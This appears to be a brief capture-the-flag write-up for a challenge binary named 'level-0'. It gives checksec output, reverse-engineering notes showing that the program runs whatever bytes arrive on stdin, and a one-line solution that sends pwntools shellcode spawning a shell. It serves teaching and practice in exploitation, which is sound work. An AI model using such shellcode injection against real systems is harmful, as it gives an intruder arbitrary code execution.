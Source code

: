 
## x64 calling convention
RDI, RSI, RDX, RCX, R8, R9

## intro
```
>>> ELF("level-0")
[*] '/vagrant/level-0/level-0'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Reverse engineering of code
```
# sym.init_chal() - 0x7f0
# 0x1e, 30 seconds
unsigned int alarm(unsigned int seconds);
DESCRIPTION - SIGALRM signal to be delivered to the calling process in seconds seconds.

# setvbuf(stdin, 0, 2 /* line buffered */, 0?, 0?)

# main(argc, argv) - 0x690
init_chal()

# 0111
char *buf = mmap(...)
read(0 /*stdin*/, buf, 0x1000) 
```
Self-explanatory.  Program accepts `0x1000` bytes over stdin,
puts them in an executable buffer and then jumps to that buffer.

## Solution
Send `asm(shellcraft.amd64.sh())` into stdin of the program.
